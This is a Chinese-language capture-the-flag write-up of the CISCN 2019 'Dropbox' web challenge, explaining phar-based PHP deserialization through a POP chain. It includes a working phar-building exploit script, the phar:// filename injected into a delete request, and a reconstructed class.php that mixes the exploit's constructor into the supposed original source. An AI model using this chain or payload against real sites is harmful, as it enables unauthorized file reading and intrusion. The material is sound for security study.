







# [CISCN2019 华北赛区 Day1 Web1] Dropbox — 没有 unserialize 的反序列化

> **题目类型**：Web — phar 反序列化（POP 链）
>
> **题目地址**：CISCN 2019 华北赛区 Day1 Web1（原题环境已关闭）
>
> **Flag**：`CTF2{0a2d4b76-7414-4da9-8d0a-2cfb19f333c0}`

---

## 题目概述

一个网盘系统：注册登录后能上传文件、下载文件、删除文件。

**整站没有一处 `unserialize()` —— 但最终还是要靠反序列化拿 flag。**

---

## 解题过程

### Step 1：先把所有功能点一遍

注册 → 登录 → 进去一看，有**上传**、**下载**、**删除**。

**先随便传一张图片试试** —— 传上去了，但是**没有返回访问地址**，访问不到。所以文件上传漏洞这条路走不通。

### Step 2：下载和删除能干什么

**这两个功能的共同点是：都接收一个文件名参数。**

```
下载：给文件名，返回内容      → 想到「任意文件下载」
删除：给文件名，把它删掉
```

### Step 3：用 Burp 把源码一个一个抓下来

**借着「任意文件下载」，把用到的每个 php 都抓下来。**我先抓了 5 个：

```text
download.php
index.php
login.php
delete.php
class.php        ← 在看完 index.php 之后发现的：它被 include 了
```

**`class.php` 是这里面最重要的一个。**

### Step 4：`class.php` 里找能拿 flag 的语句

**找到了这一处：**



```php
public function close() {
    return file_get_contents($this->filename);
}
```

**`file_get_contents` 读的是 `$this->filename` —— 只要让这个属性等于 `/flag.txt`，`close()` 就能把 flag 读出来。**

**但问题来了：整个站里没有 `unserialize()`，怎么让它执行？**

### Step 5：没有 `unserialize()`，还有 phar

**这就是 phar 反序列化：**



> **有序列化数据必然会有反序列化操作。php 大部分的文件系统函数在通过 `phar://` 协议解析 phar 文件时，都会对 meta-data 进行反序列化。**

**换句话说：你不需要有 `unserialize()` 这个函数，只要有**任何**一个文件系统函数被传入了 `phar://` 开头的路径，meta-data 里的对象就会被反序列化。**

**可以触发的函数有一大张表：`file_exists`、`file_get_contents`、`unlink`、`stat`、`readfile`、`copy`……**

### Step 6：`download.php` 不行，`delete.php` 行

**先看 `download.php`：**



```php
if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
    ...
    echo $file->close();
}
```

**它确实会调用 `close()`，但那个 `stristr($filename, "flag") === false` 把带 flag 的路径全过滤了 —— 走不通。**

**再看 `delete.php`：**



```php
public function detele() {
    unlink($this->filename);
}
```

**`unlink()` 正好在受影响函数列表里 —— 只要 `filename` 是 `phar://...`，调用 `unlink` 的那一刻就会触发反序列化。**

**（注：方法名 `detele` 是原题作者拼错的，不是笔误。）**

### Step 7：倒推整条链

**目标是 `File::close()`。但它没有什么特殊的触发方式，所以要一层层往上找。**

**先看 `FileList::__call`：**



```php
public function __call($func, $args) {
    array_push($this->funcs, $func);
    foreach ($this->files as $file) {
        $this->results[$file->name()][$func] = $file->$func();
    }
}
```

**`$file->$func()` 这一句是动态调用 —— 如果我们让 `$func = 'close'`，那 `$file->close()` 就被执行了。**

**而 `__call` 的触发条件是：**调用了一个不存在的方法**。**

**再往上看，`User::__destruct`：**



```php
public function __destruct() {
    $this->db->close();
}
```

**`$this->db` 是我们可以控制的属性。只要让它等于一个 `FileList` 对象，那么 `$this->db->close()` 就变成了「对 FileList 调用一个它没有的方法 `close`」→ 正好触发上面的 `__call`。**

**整条链就接起来了：**

```text
unlink(phar://...)            ← delete.php 里的 File::detele()
  ↓ 触发 phar 的 metadata 反序列化
User::__destruct()
  ↓  $this->db->close()
FileList::__call('close')
  ↓  foreach $files: $file->close()
File::close()
  ↓  file_get_contents('/flag.txt')
结果存进 $results
  ↓
FileList::__destruct()        ← 把 results 输出出来
```

**这一步是我卡最久的地方：`file_get_contents` 读到了，但**没有输出**还是白搭。答案是 `FileList` 自己的 `__destruct` 会把 `$results` 打出来 —— 所以链的末端不是 `close`，而是「`close` 的结果被 `__destruct` 输出」。**

### Step 8：构造 phar



```php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;
    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

$a = new User();
$a->db = new FileList();
$p = new Phar(__DIR__ . '/x.phar');
$p->startBuffering();
$p->addFromString('test.txt', 'x');
$p->setStub('<?php __HALT_COMPILER(); ?>');
$p->setMetadata($a);
$p->stopBuffering();
```

**一个坑：`FileList` 的三个属性都是 `private`，而且是数组。`$results` 和 `$funcs` 其实用不到，但也要通过构造函数一起初始化 —— 否则 `__call` 里 `array_push` 一个 null 会报错。**

### Step 9：生成、上传、触发

**生成：**

```powershell
php -d phar.readonly=0 pop.php
```

**⚠️ 这里有两个坑：**

```
① 指令名是 phar.readonly，不是 phar.onlyread
   —— 拼错 PHP 不会报错，只会静默忽略，然后报
   "creating archive disabled by the php.ini setting phar.readonly"

② 生成的 x.phar 可以随便改后缀（x.jpg / x.png 都行），
   phar 靠文件头识别，不靠扩展名
```

**上传 `x.jpg`，然后在删除时抓包，把 filename 改成：**

```text
phar://x.jpg/test.txt
```

**放包 → flag 出来：**

```text
CTF2{0a2d4b76-7414-4da9-8d0a-2cfb19f333c0}
```

---

## 解题思路总结

```text
功能点一遍 → 上传没回显地址（上传洞死）
  → 下载/删除都收文件名 → 任意文件下载
    → 把 5 个 php 全抓下来
      → class.php 里有 file_get_contents（能读 flag）
        → 但整站没有 unserialize
          → 想到 phar：只要文件系统函数收到 phar:// 就会反序列化
            → download.php 过滤了 flag
              → delete.php 的 unlink 在受影响列表里 ✓
                → 倒推链：User::__destruct → FileList::__call → File::close
                  → 构造 phar → 改后缀上传 → 删除时改 filename → flag
```

### 漏洞原理

**① phar 的本质**

**phar 是把整个项目打包成一个文件，可以直接 `php xxx.phar` 运行。它**本质是一个包含多个文件的压缩包**。**

**② 为什么它能触发反序列化**

**phar 的 manifest 里有一段 `metadata` 区，PHP 在**解析 phar 文件**时会把它反序列化。**

**而「解析 phar 文件」这件事，发生在**任何**接受路径的文件系统函数收到 `phar://` 开头的字符串时 —— 包括 `unlink`、`file_exists`、`stat`、`getimagesize` 等等。**

**所以**不需要 **`unserialize()` 这个函数**，只要有「我能控制的路径」+「一个文件系统函数」，就能触发。**

**③ 链的设计思路**

```text
先找终点（能读写文件的语句）
  → 再找入口（能被外部触发的魔术方法）
    → 中间用「动态调用」「属性可控」把它们接起来
      → 最后别忘了：读到了 ≠ 输出了
```

---

## 关键知识点

| 知识点 | 说明 |
|---|---|
| `phar://` 触发点 | 任何文件系统函数收到 `phar://` 路径即解析 phar |
| 受影响函数 | `unlink` / `file_exists` / `file_get_contents` / `stat` / `readfile` / `copy` / `parse_ini_file` … |
| `phar.readonly` | 默认 `1`，**只能在 php.ini 或 `-d` 里改**，且指令名不能拼错 |
| `Phar` 构造四件套 | `startBuffering()` / `addFromString()` / `setStub()` / `setMetadata()` / `stopBuffering()` |
| stub 要求 | 必须以 `<?php` 开头，包含 `__HALT_COMPILER(); ` |
| 后缀 | 任意后缀都能被 `phar://` 打开 |
| `__call` | 调用不存在的方法时触发，参数是方法名和参数数组 |
| `__destruct` | 对象销毁时触发，**常用于「链的入口」和「结果输出」** |
| 私有属性构造 | 必须走构造函数初始化，否则魔术方法里操作 null 会报错 |

---

??? note "class.php（按截图整理）"

    ```php
    <?php
    class User {
        public $db;
        public function __destruct() {
            $this->db->close();
        }
    }

    class File {
        public $filename;
        public function close() {
            return file_get_contents($this->filename);
        }
        public function detele() {
            unlink($this->filename);
        }
    }

    class FileList {
        private $files;
        private $results;
        private $funcs;
        public function __construct() {
            $file = new File();
            $file->filename = '/flag.txt';
            $this->files = array($file);
            $this->results = array();
            $this->funcs = array();
        }
        public function __call($func, $args) {
            array_push($this->funcs, $func);
            foreach ($this->files as $file) {
                $this->results[$file->name()][$func] = $file->$func();
            }
        }
        public function __destruct() {
            // 输出 results
        }
    }
    ```

??? note "download.php（按截图整理）"

    ```php
    <?php
    chdir($_SESSION['sandbox']);
    $file = new File();
    $filename = (string) $_POST['filename'];
    if (strlen($filename) < 40 && $file->open($filename) && stristr($filename, "flag") === false) {
        Header("Content-type: application/octet-stream");
        Header("Content-Disposition: attachment; filename=" . basename($filename));
        echo $file->close();
    } else {
        echo "File not exist";
    }
    ?>
    ```
